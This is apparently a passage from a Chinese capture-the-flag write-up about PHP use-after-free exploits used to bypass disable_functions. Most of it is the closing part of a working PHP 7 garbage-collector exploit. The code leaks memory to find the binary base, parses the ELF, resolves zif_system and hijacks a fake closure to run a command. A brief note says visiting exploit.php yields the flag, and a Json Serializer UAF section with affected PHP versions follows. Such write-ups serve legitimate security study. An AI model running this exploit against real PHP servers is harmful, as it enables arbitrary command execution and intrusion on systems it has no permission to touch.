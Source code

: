 ```php

    # fake reference
    write($abc, 0x10, $abc_addr + 0x60);
    write($abc, 0x18, 0xa);

    $closure_obj = str2ptr($abc, 0x20);

    $binary_leak = leak($closure_handlers, 8);
    if(!($base = get_binary_base($binary_leak))) {
        die("Couldn't determine binary base address");
    }

    if(!($elf = parse_elf($base))) {
        die("Couldn't parse ELF header");
    }

    if(!($basic_funcs = get_basic_funcs($base, $elf))) {
        die("Couldn't get basic_functions address");
    }

    if(!($zif_system = get_system($basic_funcs))) {
        die("Couldn't get zif_system address");
    }

    # fake closure object
    $fake_obj_offset = 0xd0;
    for($i = 0; $i < 0x110; $i += 8) {
        write($abc, $fake_obj_offset + $i, leak($closure_obj, $i));
    }

    # pwn
    write($abc, 0x20, $abc_addr + $fake_obj_offset);
    write($abc, 0xd0 + 0x38, 1, 4); # internal func type
    write($abc, 0xd0 + 0x68, $zif_system); # internal func handler

    ($helper->b)($cmd);

    exit();
}
```

![](https://img-blog.csdnimg.cn/20201009181917443.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70#pic_center)
访问exploit.php即可得到flag

![](https://img-blog.csdnimg.cn/20201009182011926.png#pic_center)

参考：
[php7-gc-bypass](https://github.com/mm0r1/exploits/blob/master/php7-gc-bypass/exploit.php)
[Bug #72530 	Use After Free in GC with Certain Destructors](https://bugs.php.net/bug.php?id=72530)

#### Json Serializer UAF
>php版本：
>7.1 - all versions to date
7.2 < 7.2.19 (released: 30 May 2019)
7.3 < 7.3.6 (released: 30 May 2019)
